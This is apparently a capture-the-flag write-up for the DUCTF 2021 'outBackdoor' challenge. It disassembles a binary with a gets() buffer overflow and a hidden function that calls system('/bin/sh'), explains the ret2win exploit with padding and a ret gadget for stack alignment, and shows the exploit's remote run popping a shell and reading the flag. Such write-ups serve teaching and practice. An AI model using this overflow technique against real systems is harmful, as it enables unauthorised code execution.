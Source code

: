 For this challenge, we are presented with a single binary named "outBackdoor". When we run it, we get the following output and it hangs waiting for user input.

```
$ ./outBackdoor 

Fool me once, shame on you. Fool me twice, shame on me.

Seriously though, what features would be cool? Maybe it could play a song?
```

Here's the disassembly of the main() function.

```asm
 66: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0x10
│           0x00401195      55             push rbp
│           0x00401196      4889e5         mov rbp, rsp
│           0x00401199      4883ec10       sub rsp, 0x10
│           0x0040119d      b800000000     mov eax, 0
│           0x004011a2      e8abffffff     call sym.buffer_init
│           0x004011a7      488d3d5a0e00.  lea rdi, str._nFool_me_once__shame_on_you._Fool_me_twice__shame_on_me. ; 0x402008 ; "\nFool me once, shame on you. Fool me twice, shame on me." ; const char *s
│           0x004011ae      e87dfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011b3      488d3d8e0e00.  lea rdi, str._nSeriously_though__what_features_would_be_cool__Maybe_it_could_play_a_song_ ; 0x402048 ; "\nSeriously though, what features would be cool? Maybe it could play a song?" ; const char *s
│           0x004011ba      e871feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011bf      488d45f0       lea rax, [s]
│           0x004011c3      4889c7         mov rdi, rax                ; char *s
│           0x004011c6      b800000000     mov eax, 0
│           0x004011cb      e890feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x004011d0      b800000000     mov eax, 0
│           0x004011d5      c9             leave
└           0x004011d6      c3             ret
```

In the prologue we can see that it's making 16 bytes (0x10) of space on the stack. Next it calls a buffer_init() function which disables buffering on standard input, standard output, and standard error which is commonly done in these types of problems. Next, it prints out the two lines we saw when we ran it by calling puts() twice. Next it calls gets() to read input from the user and stores it starting at the 16 byte space it made on the stack. Finally it sets the return code (eax) to 0 and returns.

Interestingly, there's another function in this binary named "outBackdoor". Here's it's disassembly:

```asm
┌ 36: sym.outBackdoor ();
│           0x004011d7      55             push rbp
│           0x004011d8      4889e5         mov rbp, rsp
│           0x004011db      488d3db60e00.  lea rdi, str._n_nW...w...Wait__Who_put_this_backdoor_out_back_here_ ; 0x402098 ; "\n\nW...w...Wait? Who put this backdoor out back here?" ; const char *s
│           0x004011e2      e849feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011e7      488d3ddf0e00.  lea rdi, str._bin_sh        ; 0x4020cd ; "/bin/sh" ; const char *string
│           0x004011ee      b800000000     mov eax, 0
│           0x004011f3      e858feffff     call sym.imp.system         ; int system(const char *string)
│           0x004011f8      90             nop
│           0x004011f9      5d             pop rbp
└           0x004011fa      c3             ret
```

This function prints out a message by calling puts() and then calls system("/bin/sh").

This is a typical "ret2win" style. The gets() call in main allows us to fill the 16 byte buffer and then overwrite the stored ebp and stored rip. This binary doesn't contain a stack canary, so we don't have to worry about crashing if we overwrite that in the process. In order to overwrite the stored rip, we'll need to send 16 bytes to fill the buffer, 8 bytes to overwrite the stored rbp, and 8 bytes to overwrite the stored rip. The contents of rbp don't matter here, so we can just send 24 bytes of padding followed by the little-endian representation of the address of the "outBackdoor" function.

There's a final challenge here which is that some modern linux systems have libc versions which crash if the stack isn't 16-byte aligned when you call a library function due to using some optimized instructions which have that requirement. In this case, if we return to outBackdoor() immediately, our stack pointer is not 16-byte aligned and the exploit will fail against the remote server. The easiest workaround for this problem is typically to just overwrite the saved rip with a pointer to a "ret" instruction which will advance the stack pointer by eight bytes therefore making it 16-byte aligned and then returning to the function we're trying to call.

Here's the output when run against the challenge server:

```
$ python outBackdoor.py REMOTE
[+] Opening connection to pwn-2021.duc.tf on port 31921: Done
[*] Loaded 14 cached gadgets for './outBackdoor'
[*] Switching to interactive mode


W...w...Wait? Who put this backdoor out back here?
$ cat flag.txt
DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}
```

